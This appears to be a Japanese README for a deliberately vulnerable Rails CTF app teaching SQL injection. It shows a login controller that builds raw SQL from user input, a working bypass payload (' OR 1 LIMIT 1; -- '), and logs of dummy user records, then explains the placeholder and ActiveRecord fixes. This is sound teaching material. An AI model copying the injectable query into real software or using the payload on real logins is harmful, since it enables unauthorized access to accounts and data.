

# Ruby On Rails SQLi 

Railsを用いてSQLiに脆弱なサンプルアプリを作ってみました。

CTF形式となっておりますので、ローカルで本アプリを立ち上げてFLAGを獲得してください。

## 実行方法

```
$ docker-compose up
```

以下のように``` localhost:3000/ror/index ```が立ち上がればオッケーです。



以下答えになります。

## TL;DR

```
' OR 1 LIMIT 1; -- '
```

## Railsとは？

MVCアーキテクチャに基づいて設計されたWebアプリケーションフレームワーク

ControllerにあたるAction Controller、
ViewにあたるAction View、
ModelにあたるActive Recordが担当

Railsの理念

- 設定より規約（Convention over configuration; CoC）
- DRY（Don't Repeat Yourself）
- REST（Representational State Transfer）

## Railsの仕組み

Railsアプリに対してアクセスが来たとき、RailsはどのURIにどのHTTPメソッドが来たかを判別し、[routes.rb](./config/routes.rb)を参照しながら適切なコントローラーを呼び出します。

```
  get 'ror/index'
```

とあるので、[ror_controller.rb](./app/controllers/ror_controller.rb)のindex関数によって処理されることが定義されています。

さて、index関数は何も書いていない空の関数です。

この場合、アプリは[index.html.erb](./app/views/index.html.erb)の中身をすぐに用意します。

このerbファイルからHTMLが作成され、ユーザーに表示されるという仕組みなっております。

index.html.erbを眺めてみましょう。

```
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <h1>Login</h1>
    <%= form_tag("/ror/login", method: "post") do %>
        <%= label_tag(:nickname, "Nickname:") %>
        <%= text_field_tag(:nickname) %>
        <br>
        <%= label_tag(:password, "Password:") %>
        <%= text_field_tag(:password) %>
        <%= submit_tag("Submit") %>
      <% end %>

    <p>Time: <%= Time.current %></p>
  </body>
</html>
```

ユーザの入力を受け付けるRailsのAction Viewのフォームヘルパー```form_tag```、```label_tag```などがあります。

さて、上記コードによって```/ror/login```というURIにニックネームとパスワードの情報がpostされますが、routingを確認してみるとは[ror_controller.rb](./app/controllers/ror_controller.rb)のlogin関数によって処理されることが定義されています。

login関数は以下のようになっております。

```
  def login

    con = ActiveRecord::Base.connection
    result = con.select_all("SELECT * FROM users WHERE nickname = '#{params[:nickname]}' AND password = '#{params[:password]}'")

    if result.to_a.size == 1
      render plain: 'FLAG{dummy_flag}'
      return
    end

    render plain: 'Login Failed'
  end
```

生SQLを発行していることが分かります。

SQLはニックネームとパスワードが一致するユーザーをSELECTしているようです。

ログインの成功条件としては、SQLの結果が1件取れた場合にログイン成功となりFLAGを返しているようです。

## 解法

NicknameかPasswordに

```
' OR 1 LIMIT 1; -- '
```

を入力するとログインを突破し、Flagを手に入れることができます。

ちなみに、

```
' OR 1; -- '
```

だと、```Login Failed```となってしまうが、これはもちろん、result.to_a.sizeが3になってしまうからである。

このときのWeb側のログを見ると、

```
(1.3ms)  SELECT * FROM users WHERE nickname = '' OR 1; -- '' AND password = '1'
web_1  |   ↳ app/controllers/ror_controller.rb:10:in `login'
web_1  | {"id"=>"08d9a2ad-dab1-44eb-9728-db8019921c1d", "nickname"=>"ゼニガメ", "email"=>"zenigame@pokemon.ac.jp", "password"=>"Mjs0Bmiv2", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"83aee8fd-11b4-4298-9c4b-0f5483b3115f", "nickname"=>"ヒトカゲ", "email"=>"hitokage@pokemon.ac.jp", "password"=>"FgkmcSFk2i", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"e8077e6c-0d14-466c-8300-6b7975b95442", "nickname"=>"フシギダネ", "email"=>"fushigidane@pokemon.ac.jp", "password"=>"m3bChIrNov", "age"=>5, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
```

となるため、SQL文は正しく発行されていることが分かります。

ログイン条件を正にするためには、検索結果を一件のみに絞らせる必要があります。

## 対策方法

発行するSQLの中に変数が入ってくる場合、プレースホルダで書くことが望ましいです。

問題となったSQLはプレースホルダで書くと

```
result = con.select_all("SELECT * FROM users WHERE nickname = ? AND password = ?", "#{params[:nickname]}", "#{params{:password}}")
```

となります。

RailsにはActiveRecordという強力なO/Rマッパーが用意されているので、それを使いましょう。

今回の場合だと、where句を用いることができます。

```
result = User.where(nickname: params[:nickname], password: params[:password])
```

さて、Railsdではログイン機能を作る際はdeviseというGemを利用するのが一般的です。

Gemとは、Rubyで書かれたプログラムをパッケージ化したもので、通常Bundlerを用いてGemを管理します。（Pythonでいうところのpipのようなものです。）

deviseを用いることで、会員登録・ログイン・パスワード変更機能なども容易に作成でき、セッションの確保・破棄、サインイン回数やサインイン時間やIPアドレスなども記録できます。

## データベースの中身を見てみたい方へ（Rails初学者向け）

Railsでは、rails consoleという便利なツールを使ってデータベースの中身を確認できます。

今回の問題では、以下のように```rails c```で立ち上げて、```User.all```と打つだけです。

```
$ docker exec -it ror_sqlis_web_1 bash
root@9f42995292fd:/myapp# rails c
Running via Spring preloader in process 65
Loading development environment (Rails 6.1.0)
irb(main):001:0> User.all
  User Load (0.6ms)  SELECT `users`.* FROM `users` /* loading for inspect */ LIMIT 11
=> #<ActiveRecord::Relation [#<User id: "02183cc7-3183-41eb-9f2b-81f5f8a2eb20", nickname: "ゼニガメ", email: "zenigame@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.643294000 +0000", updated_at: "2021-01-12 02:42:59.643294000 +0000">, #<User id: "13663518-f302-4dd2-beb4-366750dde71a", nickname: "フシギダネ", email: "fushigidane@pokemon.ac.jp", password: [FILTERED], age: 5, created_at: "2021-01-12 02:42:59.626354000 +0000", updated_at: "2021-01-12 02:42:59.626354000 +0000">, #<User id: "f4091449-caef-4502-96fe-55d90600d734", nickname: "ヒトカゲ", email: "hitokage@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.636228000 +0000", updated_at: "2021-01-12 02:42:59.636228000 +0000">]>>
```


